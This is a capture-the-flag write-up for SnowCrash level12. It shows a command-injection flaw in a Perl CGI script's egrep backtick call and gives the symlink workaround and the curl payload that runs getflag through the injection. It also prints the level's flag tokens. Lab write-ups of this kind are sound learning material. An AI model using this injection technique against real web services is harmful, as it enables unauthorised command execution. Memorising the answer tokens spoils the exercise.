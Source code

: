 # level12

When we started the level we found a level12.pl that you can find in the resources of this exercice.

We can easily have a first thought on where the exploit is. Here again there is a user input with very little sanitizing, which leads us to think that this might be the weak point of this program:

```
`@output = `egrep "^$xx" /tmp/xd 2>&1`;`
```

We tried to make some injections but the regex turns our ls to => LS (everything is changed in caps lock) provoking some errors but nothing interesting for us.

After a full day of research, trying a lot of non working solutions like a malicious egrep, trying to execute code in the file that the code analyzes, analyzing apache2 configuration etc... We thought that maybe we hadn't given everything on this user input solution.

We know that we can find the result in the error file of apache in /var/log/apache2/error.so why not working with it:

```
[Thu Feb 08 13:33:52 2024] [error] [client 127.0.0.1] LS: not found.
```

After this we had the idea to simply make a link between /bin/ls and /tmp/LS, a file that we created, and which is in caps lock, so handy with what this perl code does:

```
ln -s /bin/ls /tmp/LS
```

Then trying to execute curl '127.0.0.1:4646/?x=`/*/ls%3E%262`'.

This worked, we got an LS in the error log of Apache

Do this with getflag and we finally got what we were looking for !

```
level12@SnowCrash:~$ cat /var/log/apache2/error.log
[Thu Feb 08 13:41:20 2024] [error] [client 127.0.0.1] Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

```
/*********************************************************\

flag12@SnowCrash:~$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

\*********************************************************/
```